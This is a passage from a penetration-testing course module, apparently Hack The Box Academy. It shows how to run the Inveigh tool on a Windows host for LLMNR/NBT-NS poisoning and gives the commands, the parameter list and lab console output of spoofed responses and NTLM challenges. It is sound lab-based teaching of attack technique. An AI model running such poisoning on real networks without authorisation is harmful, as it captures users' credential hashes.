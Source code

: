 LLMNR & NBT-NS poisoning is possible from a Windows host as well. In the last section, we utilized Responder to capture hashes. This section will explore the tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) and attempt to capture another set of credentials.

---

## Inveigh - Overview

If we end up with a Windows host as our attack box, our client provides us with a Windows box to test from, or we land on a Windows host as a local admin via another attack method and would like to look to further our access, the tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. I
* nveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth. 
* The tool is available in the `C:\Tools` directory on the provided Windows attack host.

We can get started with the PowerShell version as follows and then list all possible parameters. There is a [wiki](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) that lists all parameters and usage instructions.

## Using Inveigh

LLMNR/NBT-NS Poisoning - from Windows

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
WPADDirectHosts         System.Management.Automation.ParameterMetadata
WPADAuthIgnore          System.Management.Automation.ParameterMetadata
ConsoleQueueLimit       System.Management.Automation.ParameterMetadata
ConsoleStatus           System.Management.Automation.ParameterMetadata
ADIDNSThreshold         System.Management.Automation.ParameterMetadata
ADIDNSTTL               System.Management.Automation.ParameterMetadata
DNSTTL                  System.Management.Automation.ParameterMetadata
HTTPPort                System.Management.Automation.ParameterMetadata
HTTPSPort               System.Management.Automation.ParameterMetadata
KerberosCount           System.Management.Automation.ParameterMetadata
LLMNRTTL                System.Management.Automation.ParameterMetadata

<SNIP>
```

Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file. We will leave the rest of the defaults, which can be seen [here](https://github.com/Kevin-Robertson/Inveigh#parameter-help).

LLMNR/NBT-NS Poisoning - from Windows

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-02-28T19:26:30
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.5.25
[+] Spoofer IP Address = 172.16.5.25
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer For Types 00,20 = Enabled
[+] NBNS TTL = 165 Seconds
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Certificate Issuer = Inveigh
[+] HTTPS Certificate CN = localhost
[+] HTTPS Capture = Enabled
[+] HTTP/HTTPS Authentication = NTLM
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] WPAD Response = Enabled
[+] Kerberos TGT Capture = Disabled
[+] Machine Account Capture = Disabled
[+] Console Output = Full
[+] File Output = Enabled
[+] Output Directory = C:\Tools
WARNING: [!] Run Stop-Inveigh to stop
[*] Press any key to stop console output
WARNING: [-] [2022-02-28T19:26:31] Error starting HTTP listener
WARNING: [!] [2022-02-28T19:26:31] Exception calling "Start" with "0" argument(s): "An attempt was made to access a
socket in a way forbidden by its access permissions" $HTTP_listener.Start()
[+] [2022-02-28T19:26:31] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:31] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:31] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:32] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:33] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:33] mDNS(QM) request academy-ea-web0.local received from 172.16.5.125 [spoofer disabled]
[+] [2022-02-28T19:26:33] LLMNR request for academy-ea-web0 received from 172.16.5.125 [response sent]
[+] [2022-02-28T19:26:34] TCP(445) SYN packet detected from 172.16.5.125:56834
[+] [2022-02-28T19:26:34] SMB(445) negotiation request detected from 172.16.5.125:56834
[+] [2022-02-28T19:26:34] SMB(445) NTLM challenge 7E3B0E53ADB4AE51 sent to 172.16.5.125:56834

<SNIP>
```

We can see that we immediately begin getting LLMNR and mDNS requests. The below animation shows the tool in action.

![GIF showcasing the usage of the Inveigh PowerShell module in a PowerShell terminal.](https://academy.hackthebox.com/storage/modules/143/inveigh_pwsh.png)

---

## C# Inveigh (InveighZero)

The PowerShell version of Inveigh is the original version and is no longer updated. The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version. Before we can use the C# version of the tool, we have to compile the executable. To save time, we have included a copy of both the PowerShell and compiled executable version of the tool in the `C:\Tools` folder on the target host in the lab, but it is worth walking through the exercise (and best practice) of compiling it yourself using Visual Studio.

Let's go ahead and run the C# version with the defaults and start capturing hashes.